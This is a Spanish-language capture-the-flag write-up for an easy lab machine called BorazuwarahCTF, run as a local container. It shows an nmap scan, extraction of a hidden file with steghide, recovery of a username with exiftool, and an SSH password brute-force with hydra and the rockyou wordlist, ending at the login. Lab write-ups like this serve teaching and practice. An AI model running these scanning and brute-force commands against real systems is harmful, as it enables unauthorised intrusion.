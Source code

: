
**Autor:** [BorazuwarahCTF

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```


![Img](/WriteUps/1%20Muy_fácil/Pasted%20image%2020241106191136.png)






------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```



---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos  
`--open` ⮞ solo a los que estén abiertos  
`--min-rate 5000` ⮞ para enviar paquetes más rápido  
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida  
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla  
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)  
`-Pn` ⮞ ignora si esta activa o no la IP  
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)

![[Pasted image 20240917192325.png]]

Nos vamos a la página web y nos sale :
![[Pasted image 20240917193213.png]]

Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```

![[Pasted image 20240917193813.png]]

```
cat secreto.txt
```


![[Pasted image 20240917193842.png]]


Lo cual nos da una pista. Buscaremos  más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```

![[Pasted image 20240917194039.png]]

Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20240917194231.png]]

```
ssh borazuwarah@172.17.0.2
```

![[Pasted image 20240917194342.png]]

Y ya estamos adentro. 
